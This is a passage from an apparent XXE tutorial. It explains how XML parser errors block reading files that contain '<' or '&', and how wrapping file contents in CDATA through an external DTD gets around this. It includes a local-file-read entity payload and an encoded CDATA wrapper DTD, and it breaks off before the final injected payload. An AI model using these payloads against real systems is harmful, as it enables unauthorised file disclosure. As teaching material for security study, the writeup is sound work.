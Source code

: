 In the case of "<", this is due to parser scanning for the start of an XML node. If the content does not form a proper XML node, the parser would raise exceptions like "*lxml.etree._raiseParseError XMLSyntaxError: chunk is not well balanced*". A well-form XML `<test></test>` would not face such error.

In the case of "&", this is due to parser scanning for an entity's name. Without a proper entity syntax, the parser would raise exceptions like "*lxml.etree._raiseParseError XMLSyntaxError: xmlParseEntityRef: no name*". A well-formed XML entity syntax like  `&gt;`  would not face such error.

**All safe characters**

```
00000000: 090a 0d20 2122 2324 2527 2829 2a2b 2c2d  ... !"#$%'()*+,-
00000010: 2e2f 3031 3233 3435 3637 3839 3a3b 3d3e  ./0123456789:;=>
00000020: 3f40 4142 4344 4546 4748 494a 4b4c 4d4e  ?@ABCDEFGHIJKLMN
00000030: 4f50 5152 5354 5556 5758 595a 5b5c 5d5e  OPQRSTUVWXYZ[\]^
00000040: 5f60 6162 6364 6566 6768 696a 6b6c 6d6e  _`abcdefghijklmn
00000050: 6f70 7172 7374 7576 7778 797a 7b7c 7d7e  opqrstuvwxyz{|}~
00000060: 7f                                       .
```

Supposed there is a file `illegal.txt` that contains some illegal character:

```
You cannot read me with XXE & < TEST
```

Performing the following attack to directly retrieve that file would result in error:

```xml
<!DOCTYPE root [
	<!ENTITY filecontent SYSTEM "illegal.txt">
]>
<root> &filecontent; </root>
```

So how can we retrieve files with illegal characters like "<" and "&" ?

**Enters CDATA**

Character Data (CDATA) can be used to surround illegal characters to prevent XML parser from parsing them.

```xml
<![CDATA[ You cannot read me with XXE & < TEST ]]>
```

if the file content can be surround by `<![CDATA[ ` and `]]>` , the file content can be retrievable. 

This requires a wrapper and the knowledge of the Internal Subset Problem comes to our rescue.

We can use an external *readillegal.dtd* file with CDATA wrapper being <u>html-entity encoded</u>:

```dtd
<!ENTITY filecontent "&#x3c;&#x21;&#x5b;&#x43;&#x44;&#x41;&#x54;&#x41;&#x5b; %content; &#x5d;&#x5d;&#x3e;" >
```

Injected definition & body:
